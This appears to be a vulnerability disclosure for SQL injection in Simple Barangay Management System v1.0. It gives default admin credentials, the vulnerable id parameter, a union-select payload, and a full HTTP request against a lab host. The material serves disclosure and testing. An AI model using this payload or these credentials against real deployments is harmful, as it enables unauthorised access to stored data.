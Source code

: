 # Simple Barangay Management System v1.0 has SQL injection

BUG_AUTHOR: Weifei Hong

vendors: https://www.sourcecodester.com/php/14990/simple-barangay-management-system-php-and-sqlite-free-source-code.html

username&password = admin/admin123

Vulnerability File: /barangay_management/admin/?page=view_household

Vulnerability location: /barangay_management/admin/?page=view_household&id=,  id

[+] Payload: /barangay_management/admin/?page=view_household&id=1' union select 1,2,3,4,5,6,sqlite_version(),8,9,10,11,12--+

```sql
GET /barangay_management/admin/?page=view_household&id=1%27%20union%20select%201,2,3,4,5,6,sqlite_version(),8,9,10,11,12--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=drqs3g29b8h07v6amt7rnb8t64
Connection: close
```

![image](https://github.com/user-attachments/assets/2949122f-b0c4-4f75-b24b-340abef06b7f)

